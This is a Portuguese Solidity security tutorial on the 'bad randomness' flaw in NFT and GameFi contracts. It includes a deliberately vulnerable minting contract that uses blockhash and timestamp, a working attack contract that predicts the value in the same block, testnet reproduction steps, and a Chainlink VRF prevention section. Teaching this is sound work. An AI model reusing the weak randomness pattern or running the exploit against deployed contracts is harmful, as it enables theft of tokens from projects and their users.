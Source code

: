 # WTF Solidity Contrato Seguro: S07. Má Sorteio

Recentemente, tenho revisitado o estudo do Solidity para consolidar detalhes e escrever um "WTF Solidity guia introdutório" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 aulas.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site Oficial da wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

---

Nesta aula, vamos falar sobre a vulnerabilidade de "Má Sorteio" em contratos inteligentes e métodos de prevenção. Essa vulnerabilidade é comum em projetos de NFT e GameFi, como Meebits, Loots, Wolf Game, entre outros.

## Números Pseudorandômicos

Muitas aplicações na Ethereum requerem o uso de números aleatórios, como para sortear `tokenId` de NFTs, abrir lootboxes, determinar resultados aleatórios em batalhas de GameFi, entre outros. No entanto, devido à transparência e determinismo dos dados na Ethereum, não existe um método para gerar números aleatórios como na maioria das outras linguagens de programação, como `random()`. Portanto, muitos projetos acabam utilizando métodos de geração de números pseudorandômicos na blockchain, como `blockhash()` e `keccak256()`.

Vulnerabilidade de Má Sorteio: Hackers podem calcular previamente os resultados desses números pseudorandômicos e manipulá-los conforme desejarem, como criar NFTs raros específicos em vez de sortear aleatoriamente. Para saber mais, consulte [WTF Solidity guia introdutório aula 39: Números Pseudorandômicos](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

## Exemplo de Má Sorteio

Abaixo, vamos analisar um contrato de NFT com a vulnerabilidade de Má Sorteio: BadRandomness.sol.

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // Construtor, inicializa o nome e o símbolo da coleção de NFTs
    constructor() ERC721("", ""){}

    // Função de cunhagem: um NFT só é cunhado se o luckyNumber for igual ao número aleatório
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // cunhar
        totalSupply++;
    }
}
```

Este contrato possui a função principal `luckyMint()`, onde o usuário deve inserir um número de `0-99`, que, se coincidir com o número pseudorandômico gerado na blockchain, permite cunhar um NFT da sorte. A vulnerabilidade está no fato de que o usuário pode prever com precisão o número aleatório gerado e cunhar o NFT desejado.

Agora, vamos criar um contrato de ataque `Attack.sol`.

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Calcular previamente o número aleatório
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Realizar o ataque usando o luckyNumber
        nftAddr.luckyMint(luckyNumber);
    }
}
```

A função de ataque `attackMint()` recebe o endereço do contrato `BadRandomness` como parâmetro. Nela, calculamos o número aleatório `luckyNumber` e o passamos como argumento para a função `luckyMint()` para realizar o ataque. Como `attackMint()` e `luckyMint()` são chamados no mesmo bloco, o `blockhash()` e o `block.timestamp` são os mesmos, gerando o mesmo número aleatório.

## Reprodução no Remix

Como o Remix com Remix VM não suporta a função `blockhash()`, é necessário implantar os contratos na testnet Ethereum para reproduzir o ataque.

1. Implantar o contrato `BadRandomness`.

2. Implantar o contrato `Attack`.

3. Passar o endereço do contrato `BadRandomness` como parâmetro para a função `attackMint()` do contrato `Attack` e executar o ataque.

4. Usar a função `balanceOf` do contrato `BadRandomness` para verificar o saldo de NFTs do contrato de ataque e confirmar o sucesso do ataque.

## Métodos de Prevenção

Normalmente, utilizamos números aleatórios gerados fora da blockchain por meio de projetos de oráculos, como o Chainlink VRF, para prevenir esse tipo de vulnerabilidade. Esses números aleatórios são gerados fora da blockchain e depois enviados para a mesma, garantindo que sejam imprevisíveis. Para saber mais, consulte [WTF Solidity guia introdutório aula 39: Números Pseudorandômicos](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

## Conclusão

Nesta aula, abordamos a vulnerabilidade de Má Sorteio em contratos inteligentes e apresentamos um método simples de prevenção: utilizar números aleatórios gerados fora da blockchain por meio de projetos de oráculos. Projetos de NFT e GameFi devem evitar o uso de números pseudorandômicos na blockchain para sorteios, a fim de evitar possíveis ataques de hackers.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->